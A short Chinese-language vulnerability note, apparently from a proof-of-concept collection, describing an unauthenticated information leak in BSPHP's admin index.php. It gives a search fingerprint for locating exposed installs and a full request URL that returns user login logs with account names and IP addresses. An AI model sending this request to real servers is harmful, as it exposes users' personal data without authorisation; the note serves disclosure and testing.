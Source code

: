 # BSPHP index.php 未授权访问 信息泄露漏洞

# BSPHP index.php 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

```
BSPHP
```

## 网络测绘

```
"BSPHP"
```

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```plain
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![](/images/202202162317323.png)

